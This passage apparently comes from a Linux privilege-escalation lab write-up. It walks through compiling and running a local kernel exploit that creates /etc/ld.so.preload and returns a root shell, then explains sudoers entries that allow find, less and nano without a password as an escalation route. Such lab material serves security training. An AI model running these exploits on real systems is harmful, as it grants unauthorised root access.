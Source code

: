 Download the exploitable into your machine and compile it. When I first compile it, it returned missing header error so I added these two header to the code: 
```c
#define _GNU_SOURCE     // Required for clone() and unshare()
#include <sys/wait.h>   // For wait(), waitpid()
```

```bash
─$ gcc -static ofs.c -o of
```
on the target machine, transfer the exploiter to `/tmp` folder so we can write our permission, then execut it.
```bash
$ cd /tmp
$ ls -l ofs     
-rw-rw-r-- 1 karen karen 780000 Jul 16 15:03 ofs
$ chmod +x ofs
$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
```


## Privilege Escalation: Sudo
Sudo is a command-line tool that gives regular users root privileges or permissions. It also allows a user to perform actions with the privileges of another user

View the sudoers file

```bash
$ sudo -l
Matching Defaults entries for karen on ip-10-10-200-124:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-200-124:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```
`env_reset`: This means that when you run sudo, your environment variables (like `PATH`, `LD_PRELOAD`, `HOME`, etc.) are reset to a default minimal safe set. This is a security feature to prevent attackers from:
- injecting malicious environment variables (like `LD_PRELOAD`, `LD_LIBRARY_PATH`, `PYTHONPATH`, etc.)
- affecting the behavior of sudo-executed commands

`mail_badpass`: This tells sudo to send an email to the system administrator if a user enters an incorrect password when trying to run sudo. But the command `find`, `less`, and `nano` won't trigger this rule because the user can use it without password, thus we can exploit it to gain privileg escalation..
This repo will help you in how to do the exploitation -> https://gtfobins.github.io
